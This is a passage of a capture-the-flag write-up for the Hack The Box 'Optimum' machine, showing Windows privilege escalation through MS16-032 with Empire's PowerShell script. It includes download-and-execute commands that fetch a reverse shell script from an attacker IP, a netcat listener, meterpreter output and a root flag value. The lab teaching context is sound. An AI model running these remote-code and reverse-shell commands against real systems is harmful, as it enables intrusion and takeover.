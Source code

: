 
If we google MS16-032, we can find a script that allows for privilege escalation. The problem is, this requires an interactive session, and seeing as we just have a command prompt, we'll need to find (or create) a modified version. Thankfully, Empire has created a script for this specific purpose. We can download their entire framework.

`git clone https://github.com/EmpireProject/Empire.git`

Then we can `cd` to the `/opt/Empire/data/module_source/privesc` to find the `Invoke-MS16032.ps1` file. `cp` the file to the directory being served, and append the command below to the end our file.

````
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3:4322/revtcp.ps1')"
````

Now, go back into your original `revtcp.ps1`, and change the port being to serve any other than the previous one. I chose `4322`. Then, use `nlwrap nc -nlvp` to set up a listener on that port.

Finally, go back to your user shell, and type the following

`IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')`

This will serve our new privesc script and grant us a higher privilege shell in our other netcat session.

![Image](/assets/Screenshot 2024-09-09 at 12.08.18 PM.png)

![Image](/assets/Screenshot 2024-09-09 at 12.10.19 PM.png)

Once here, we can `cd ../` to backtrack and find our way to the root flag.

`ROOT: af6d90a49c7471e437099290c59c3950`


## Using Metasploit
### Exploit
- MSF ![Image](/assets/Screenshot 2024-09-07 at 11.02.01 AM.png)
- user ![Image](/assets/Screenshot 2024-09-07 at 11.03.02 AM.png)
- Listing sysinfo and processes. woudl be wise to migrate
```
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User            Path
 ---   ----  ----                     ----  -------  ----            ----
 0     0     [System Process]
 4     0     System
 228   4     smss.exe
 332   324   csrss.exe
 384   480   spoolsv.exe
 388   324   wininit.exe
 396   380   csrss.exe
 424   380   winlogon.exe
 480   388   services.exe
 488   388   lsass.exe
 492   480   vmtoolsd.exe
```